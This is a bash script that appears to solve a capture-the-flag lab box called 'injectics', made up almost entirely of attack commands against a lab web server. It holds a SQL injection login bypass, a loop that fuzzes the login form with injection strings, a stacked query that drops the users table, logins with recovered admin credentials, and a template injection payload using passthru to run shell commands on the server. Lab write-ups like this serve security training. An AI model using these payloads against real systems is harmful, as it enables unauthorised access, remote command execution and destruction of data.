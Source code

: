 #!/usr/bin/env bash

target='http://10.10.128.56'

# Response Information
#curl -s -D - -o /dev/null "$target"

# Home Page
#curl -sL "$target/index.php" -O

# Mail Log
#curl -sL "$target/mail.log" -O

# Login Page
#curl -sL "$target/login.php" -O
#curl -sL "$target/script.js" -O

# Admin Login
#curl -sL "$target/adminLogin007.php" -O

# LOGIN POST REQUEST
username='x'
password='x'
inject="' OR 'x'='x'#;"
#while IFS='' read inject
#do
#   response=$(curl -sL "$target/functions.php" -d "username=$username $inject" -d "password=$password")
#   size=${#response}
#   if [[ $size != 56 ]];
#   then
#       echo $inject
#   fi
#done < injects.txt

# Bypass
#curl -sL "$target/functions.php" -d "username=$username $inject" -d "password=$password" --cookie-jar login.cookie


#curl -sL "$target/edit_leaderboard.php" --cookie login.cookie -d "rank=1" -d "country=USA" -d "gold=30; drop table users #;" -d "silver=30" -d "bronze=30"

#curl -sL "$target/dashboard.php" --cookie login.cookie -O

# Use Credentials
username='superadmin@injectics.thm'
password='superSecurePasswd101'
#curl -sL "$target/adminLogin007.php" -d "mail=$username" -d "pass=$password" --cookie-jar admin.cookie -o admin-login.php

# SUPER ADMIN
#curl -sL "$target/update_profile.php"  --cookie admin.cookie -O
#curl -sL "$target/composer.json" -O
curl -sL "$target/update_profile.php" -d "fname={{['"'bash -c ls\", '']|sort('passthru')}}" -d "email=$username" --cookie admin.cookie
curl -sL "$target/update_profile.php"  --cookie admin.cookie -O
curl -sL "$target/dashboard.php"  --cookie admin.cookie
